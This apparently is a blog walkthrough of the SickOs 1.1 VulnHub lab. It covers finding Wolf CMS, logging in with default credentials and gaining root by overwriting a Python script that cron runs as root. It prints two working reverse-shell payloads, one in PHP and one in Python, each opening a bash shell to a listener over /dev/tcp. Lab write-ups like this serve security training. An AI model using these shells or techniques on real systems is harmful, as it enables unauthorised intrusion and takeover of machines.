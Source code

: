 ```yaml
---
published: true
---
```

[SickOs: 1.1](https://www.vulnhub.com/entry/sickos-11,132/) is a vulnerable machine with an objective to get root and read file /root/a0216ea4d51874464078c618298b1367.txt


To get VM's IP I used nmap
	
![]({{site.baseurl}}/images/sickos1.png)

Output gave me information that VM runs http proxy. I configured Firefox to use it and tried to access VM's localhost. 

![]({{site.baseurl}}/images/sickos2.png)

I succeed and noticed some simple website. I tried robots.txt and found that there is Wolf CMS run under /wolfcms

![]({{site.baseurl}}/images/sickos3.png)

I asked google for some information about Wolf CMS and found two directories used for installation process - /install and /docs. I tried both but only /docs was available. In file http://localhost/wolfcms/docs/install.txt I found default credentials, but I didn't know where to put them. I went to google again and searched for URL to admin panel which occurred to be http://localhost/wolfcms/?/admin/login.
Default credentials worked and I got access to administration panel.

![]({{site.baseurl}}/images/sickos4.png)

From this place I was able to upload reverse shell and connect to VM.

	<?php
	exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.175.1/8888 0>&1'");
	?>

After I got access to shell and started investigation what this machines does. I found that there is a cron running python script as root every minute. Fortunatelly I had permission to overwrite this file.

![]({{site.baseurl}}/images/sickos5.png)

I uploaded reverse shell again, but this time written in python.

	#!/usr/bin/python
	import os
	os.system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.175.1/9999 0>&1'")

I used existing shell to overwrite script with uploaded one, then I ran netcat on port 9999 and waited one minute until I got root shell.

![]({{site.baseurl}}/images/sickos6.png)

![]({{site.baseurl}}/images/sickos7.png)

